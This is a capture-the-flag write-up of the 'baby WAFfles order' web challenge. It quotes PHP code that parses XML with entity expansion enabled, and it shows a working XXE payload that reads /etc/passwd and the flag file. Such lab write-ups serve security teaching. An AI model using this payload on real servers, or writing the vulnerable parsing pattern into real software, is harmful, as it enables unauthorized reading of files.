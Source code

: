 # baby WAFfles order - web challenge

The website allows users to order waffles or ice cream. Here's an image of the website:

![](index.png)

Let's review the source code. The OrderController.php caught my attention.


```
<?php
class OrderController
{
    public function order($router)
    {
        $body = file_get_contents('php://input');
        if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/json')
        {
            $order = json_decode($body);
            if (!$order->food) 
                return json_encode([
                    'status' => 'danger',
                    'message' => 'You need to select a food option first'
                ]);
            return json_encode([
                'status' => 'success',
                'message' => "Your {$order->food} order has been submitted successfully."
            ]);
        }
        else if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/xml')
        {
            $order = simplexml_load_string($body, 'SimpleXMLElement', LIBXML_NOENT);
            if (!$order->food) return 'You need to select a food option first';
            return "Your {$order->food} order has been submitted successfully.";
        }
        else
        {
            return $router->abort(400);
        }
    }
}
```

The critical part is this:


```
 else if ($_SERVER['HTTP_CONTENT_TYPE'] === 'application/xml')
        {
            $order = simplexml_load_string($body, 'SimpleXMLElement', LIBXML_NOENT);
            if (!$order->food) return 'You need to select a food option first';
            return "Your {$order->food} order has been submitted successfully.";
        }
```

If the content type of the request is XML, the data is passed to simplexml_load_string without any filtering or input sanitization, which allows us to inject XML entities and read files. Let's try to provide simple XML and see if it works. Then we will inject XML. I'll use Burp Suite Repeater to intercept the request and send XML data.

first payload:
```
<!--?xml version="1.0" ?-->
<userInfo>
 <food>Pls work</food>
 <lastName>Doe</lastName>
</userInfo>
```

![](burp1.png)

As you can see the name in the food was displayed in the response.

> "Your Pls work order has been submitted successfully."

Now let's add a malicious entity to read /etc/passwd:

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
 <food>&ent;</food>
 <lastName>Doe</lastName>
</userInfo>
```

We got /etc/passwd!

![](burp2.png)

Now let's find the flag. Since I don't know its location, I'll check the config files. In the Dockerfile, I found this line:
`COPY flag /flag`

The flag is copied to /flag. Let's try to read it:

![](-flag.png)

As you can see, the server responded with the flag. Congratulations, we successfully completed the Baby Waffles Order web challenge!
